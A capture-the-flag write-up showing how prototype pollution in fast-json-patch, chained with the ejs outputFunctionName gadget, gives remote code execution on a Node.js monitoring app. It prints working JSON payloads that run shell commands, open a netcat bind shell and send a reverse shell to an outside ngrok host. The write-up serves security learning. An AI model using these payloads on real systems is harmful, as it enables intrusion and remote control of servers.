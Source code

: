 ```yaml
---
description: JavaScript Prototype Injection
---
```


# Illusion

## Problem

Laura just found a website used for monitoring security mechanisms on Rhiza's state and is planning to hack into it to forge the status of these security services. After that she will desactivate these security resources without alerting government agents. Your goal is to get into the server to change the monitoring service behavior.

{% file src="../../.gitbook/assets/illusion.tar.gz" caption="Illusion" %}

## Solution

First, let's analyse the source code.

Here, we see that for testing locally, we should use `admin:admin` as the basic authentication credentials.

```javascript
app.use(basicAuth({
    users: { "admin": process.env.SECRET || "admin" },
    challenge: true
}))
```

We come across an interesting functionality of the app. When POST-ing JSON to the `/change_status` endpoint, the [fast-json-patch](https://www.npmjs.com/package/fast-json-patch) package is used to modify the `services` object.

```javascript
const jsonpatch = require('fast-json-patch')

...

// API
app.post("/change_status", (req, res) => {

    let patch = []

    Object.entries(req.body).forEach(([service, status]) => {

        if (service === "status"){
            res.status(400).end("Cannot change all services status")
            return
        }

        patch.push({
            "op": "replace",
            "path": "/" + service,
            "value": status
        })
    });

    jsonpatch.applyPatch(services, patch)

    console.log(Object.values(services))
    if ("offline" in Object.values(services)){
        services.status = "offline"
    }

    res.json(services)
})
```

A quick search led me to this GitHub pull request: [ https://github.com/Starcounter-Jack/JSON-Patch/pull/262](%20https://github.com/Starcounter-Jack/JSON-Patch/pull/262). A prototype pollution vulnerability exists in `applyPatch()`.

It appears that the issue is not yet fixed, even in the latest version!

For instance, if we POST the following data:

```javascript
{
    "cameras": "offline",
    "doors": "offline",
    "turrets": "offline",
    "dome": "offline",
    "constructor/prototype/offline": "test",
}
```

Every object will now have the `offline` attribute. The following if statment will then evaluate to True, since the `Array` object will have an `offline` attribute as well.

```javascript
if ("offline" in Object.values(services)){
    services.status = "offline"
}
```

But we can't really do much with this... yet. When there is a prototype injection vulnerability in server-side code, it can usually lead to serious exploits like RCE.

In this case, we can achieve RCE through exploiting the `ejs` module, by leveraging the `constructor/prototype/outputFunctionName` option in the `ejs` rendering function. This is quite a well known exploit: [https://portswigger.net/daily-swig/prototype-pollution-bug-in-popular-node-js-library-leaves-web-apps-open-to-dos-remote-shell-attacks](https://portswigger.net/daily-swig/prototype-pollution-bug-in-popular-node-js-library-leaves-web-apps-open-to-dos-remote-shell-attacks)

For how to exploit it, here's a neat reference: [https://blog.p6.is/Real-World-JS-1/](https://blog.p6.is/Real-World-JS-1/)

We can see that `ejs` is used. It is a very popular library for templating in web applications.

```javascript
const ejs = require('ejs')

...

app.get("/", async (req, res) => {
    const html = await ejs.renderFile(__dirname + "/templates/index.ejs", {services})
    res.end(html)
})
```

Testing locally as a normal user first \(the actual challenge uses a guest user\), we can POST the following data to test that RCE exists:

```javascript
{
    "cameras": "offline",
    "doors": "offline",
    "turrets": "offline",
    "dome": "offline",
    "constructor/prototype/offline": "test",
    "constructor/prototype/outputFunctionName": "x;console.log(1);process.mainModule.require('child_process').exec('whoami >> src/static/style.css');x"
}
```

This executes `whoami >> src/static/style.css`. We can see that in the `style.css`, the output is indeed reflected.

![](../../.gitbook/assets/4f7c707532584a42a7f9976744fdfc56.png)

Then I ran the docker image. Note that we are provided with a `readflag` binary. We can run. this binary and obtain the flag from the output.

Since we're a guest user, we don't have permissions to write the output to a readable file. We can try to use a bind shell instead. The following will execute `nc -lvp 4444 -e /bin/sh`, opening up a bind shell on port 4444. 

```javascript
{
    "cameras": "offline",
    "doors": "offline",
    "turrets": "offline",
    "dome": "offline",
    "constructor/prototype/outputFunctionName": "x;console.log(1);process.mainModule.require('child_process').exec('nc -lvp 4444 -e /bin/sh');x"
}
```

When we connect to the bind shell, we can then run. the `readflag` binary.

![](../../.gitbook/assets/4a7887f7a3cf414983b2a57bfbf15f3c.png)

Time to connect to the real server!

![](../../.gitbook/assets/01258025ec1e4e4594f359bde6278b1d.png)

The bind shell didn't work, so we had to use a reverse shell instead.

First, I set up a `ngrok` TCP forwarder. Then, in our RCE payload, we can use the public endpoint given by `ngrok` to catch our reverse shell. To trigger a reverse shell, we would need to modify our RCE:

```javascript
{
    "cameras": "offline",
    "doors": "offline",
    "turrets": "offline",
    "dome": "offline",
    "constructor/prototype/outputFunctionName": "x;console.log(1);process.mainModule.require('child_process').exec('nc 8.tcp.ngrok.io 17160 -e /bin/sh');x"
}
```

This should forward the reverse shell to our local machine, and we get the flag!

![](../../.gitbook/assets/c314f1e63edd4cb9acfb5204153a17b3.png)


